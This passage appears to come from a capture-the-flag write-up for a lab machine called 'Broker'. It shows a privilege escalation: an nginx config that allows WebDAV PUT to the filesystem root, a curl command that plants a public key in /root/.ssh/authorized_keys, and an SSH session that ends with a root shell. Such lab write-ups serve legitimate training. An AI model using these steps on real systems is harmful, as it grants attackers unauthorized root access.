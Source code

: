 ```bash
```

* We can read the files (root.txt)



### Beyond root (ippsec way)

* If we can create our own server, let's create one where we can put files

{% embed url="https://stackoverflow.com/questions/16912270/how-do-i-allow-a-put-file-request-on-nginx-server" %}

The above link specify us about the `dav_methods`

```javascript
location / {
    root /;
    dav_methods  PUT;
}
```

* Let's put our public key in `/root/.ssh/authorized_keys`
* Command :&#x20;

```bash
 curl -X PUT http://10.10.11.243:7457/root/.ssh/authorized_keys \
 --upload-file ~/.ssh/id_rsa.pub   
```

_**replace the port(7457) with the port number you used to create the nginx server**_

### Shell

* Let's check if our key is been placed

```bash
activemq@broker:/tmp$ curl localhost:7878/root/.ssh/
<html>
<head><title>Index of /root/.ssh/</title></head>
<body>
<h1>Index of /root/.ssh/</h1><hr><pre><a href="../">../</a>
<a href="authorized_keys">authorized_keys</a>                                    10-Nov-2023 10:36                 741
</pre><hr></body>
</html>
activemq@broker:/tmp$
```

* As we can see our keys are placed, now just ssh & we have rooooooooot shell

```bash
└─➜ ssh root@10.10.11.243                                                                                                                                                                [0]
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-88-generic x86_64)

 <-- snipped -->

Last login: Fri Nov 10 10:40:14 2023 from 10.10.14.51
root@broker:~# id
uid=0(root) gid=0(root) groups=0(root)
root@broker:~#
```

## PWNED

\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_heapbytes's still pwning.
